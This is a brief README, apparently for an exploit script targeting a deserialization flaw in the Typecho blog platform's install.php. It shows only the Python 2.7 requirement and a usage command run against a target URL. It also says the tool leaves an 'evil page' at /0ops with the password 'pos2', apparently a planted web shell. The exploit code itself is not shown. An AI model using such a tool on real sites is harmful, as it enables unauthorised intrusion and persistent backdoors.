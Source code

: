 # Typecho Anti serialization vulnerability

intsall.php is vulnerable

# Requirement
```
Python 2.7
```

# Usage
```
Usage:  python typecho_exp.py [vulnerable url]
	 	
			vulnerable url  www.example.com/install.php

python typecho_exp.py www.example.com/install.php

the evil page: www.example.com/0ops
password: pos2
```

# Credit

Author: CarlStar

